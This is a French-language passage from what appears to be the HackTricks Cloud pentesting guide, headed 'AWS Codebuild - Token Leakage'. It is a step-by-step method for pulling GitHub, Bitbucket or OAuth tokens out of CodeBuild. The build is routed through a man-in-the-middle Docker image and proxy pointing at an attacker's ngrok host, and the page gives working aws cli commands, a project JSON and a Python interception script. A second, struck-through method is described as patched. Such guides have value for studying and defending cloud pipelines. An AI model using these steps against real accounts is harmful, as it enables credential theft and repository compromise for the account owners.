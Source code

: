# AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Récupérer les jetons configurés Github/Bitbucket

Tout d'abord, vérifiez s'il y a des identifiants source configurés que vous pourriez leak :
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Si vous constatez que l'authentification, par exemple à Github, est configurée dans le compte, vous pouvez **exfiltrer** cet **accès** (**token GH ou token OAuth**) en faisant en sorte que Codebuild **utilise une image docker spécifique** pour exécuter la construction du projet.

À cette fin, vous pourriez **créer un nouveau projet Codebuild** ou modifier l'**environnement** d'un projet existant pour définir l'**image Docker**.

L'image Docker que vous pourriez utiliser est [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). C'est une image Docker très basique qui définira les **variables d'environnement `https_proxy`**, **`http_proxy`** et **`SSL_CERT_FILE`**. Cela vous permettra d'intercepter la plupart du trafic de l'hôte indiqué dans **`https_proxy`** et **`http_proxy`** et de faire confiance au CERT SSL indiqué dans **`SSL_CERT_FILE`**.

1. **Créer et télécharger votre propre image Docker MitM**
* Suivez les instructions du dépôt pour définir votre adresse IP de proxy et configurer votre certificat SSL et **construire l'image docker**.
* **NE PAS CONFIGURER `http_proxy`** pour ne pas intercepter les requêtes vers le point de terminaison des métadonnées.
* Vous pourriez utiliser **`ngrok`** comme `ngrok tcp 4444` pour définir le proxy vers votre hôte.
* Une fois que vous avez construit l'image Docker, **téléchargez-la dans un dépôt public** (Dockerhub, ECR...)
2. **Définir l'environnement**
* Créez un **nouveau projet Codebuild** ou **modifiez** l'environnement d'un projet existant.
* Configurez le projet pour utiliser l'**image Docker précédemment générée**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Configurer le proxy MitM sur votre hôte**

* Comme indiqué dans le **dépôt Github**, vous pourriez utiliser quelque chose comme :
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La **version de mitmproxy utilisée était 9.0.1**, il a été signalé qu'avec la version 10, cela pourrait ne pas fonctionner.
{% endhint %}

4. **Exécutez la construction et capturez les identifiants**

*   Vous pouvez voir le token dans l'en-tête **Authorization** :

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Cela pourrait également être fait depuis l'aws cli avec quelque chose comme

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Cette vulnérabilité a été corrigée par AWS à un moment donné durant la semaine du 20 février 2023 (je pense que c'était vendredi). Donc un attaquant ne peut plus en abuser :)**
{% endhint %}

Un attaquant avec **des permissions élevées dans un CodeBuild pourrait fuir le token Github/Bitbucket** configuré ou si les permissions étaient configurées via OAuth, le **token OAuth temporaire utilisé pour accéder au code**.

* Un attaquant pourrait ajouter les variables d'environnement **http\_proxy** et **https\_proxy** au projet CodeBuild pointant vers sa machine (par exemple `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Ensuite, changer l'URL du dépôt github pour utiliser HTTP au lieu de HTTPS, par exemple : \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Ensuite, exécuter l'exemple de base depuis [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) sur le port pointé par les variables proxy (http\_proxy et https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Enfin, cliquez sur **Build the project**, les **identifiants** seront **envoyés en texte clair** (base64) au port mitm :

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Maintenant, un attaquant pourra utiliser le token depuis sa machine, lister tous les privilèges qu'il a et (ab)user plus facilement que d'utiliser directement le service CodeBuild.
{% endhint %}

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
